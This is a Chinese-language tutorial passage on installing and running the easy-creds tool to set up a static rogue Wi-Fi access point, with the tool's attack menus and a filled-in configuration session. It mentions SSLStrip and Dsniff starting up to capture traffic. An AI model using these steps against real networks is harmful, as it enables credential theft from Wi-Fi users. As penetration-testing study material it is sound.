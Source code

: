 [GitHub 地址](https://github.com/brav0hax/easy-creds)

下载后执行目录中的`installer.sh`安装即可。然后执行`easy-creds`命令。

```
 ____ ____ ____ ____ ____ ____ ____ ____ ____ ____
||e |||a |||s |||y |||- |||c |||r |||e |||d |||s ||
||__|||__|||__|||__|||__|||__|||__|||__|||__|||__||
|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|
 	Version 3.8-dev - Garden of New Jersey

At any time, ctrl+c  to cancel and return to the main menu

1.  Prerequisites & Configurations  # 配置
2.  Poisoning Attacks     # 毒化攻击
3.  FakeAP Attacks        # 伪AP攻击
4.  Data Review           # 数据检查
5.  Exit
q.  Quit current poisoning session
```

选择 3，进入伪 AP 攻击

```
1.  FakeAP Attack Static     # 静态
2.  FakeAP Attack EvilTwin   # eviltwin
3.  Karmetasploit Attack
4.  FreeRadius Attack
5.  DoS AP Options
6.  Previous Menu
```

选择 1，静态伪 AP 攻击

```
Would you like to include a sidejacking attack? [y/N]: N   # 是否要包劫持攻击
Interface connected to the internet (ex. eth0): eth0
Wireless interface name (ex. wlan0): wlan0
ESSID you would like your rogue AP to be called, example FreeWiFi: gty123
Channel you would like to broadcast on: 10
Enter your monitor enabled interface name, (ex: mon0): wlan0mon
Would you like to change your MAC address on the mon interface? [y/N]: N #是否修改监听接口MAC地址
Enter your tunnel interface, example at0: at0   # 隧道接口
Do you have a dhcpd.conf file to use? [y/N]: N   # 是否使用dhcpd.conf
Network range for your tunneled interface, example 10.0.0.0/24: 192.168.1.0/24  # 隧道接口网络范围
The following DNS server IPs were found in your /etc/resolv.conf file:
 <> 192.168.1.2

Enter the IP address for the DNS server, example 8.8.8.8: 192.168.1.2  # 设置DNS服务器
```

之后系统会自动开启一些程序，如 DHCP、SSLStrip、Etterp、Dsniff 等，弹出几个窗口

{% asset_img 34.png %}

## Evil Twin 攻击
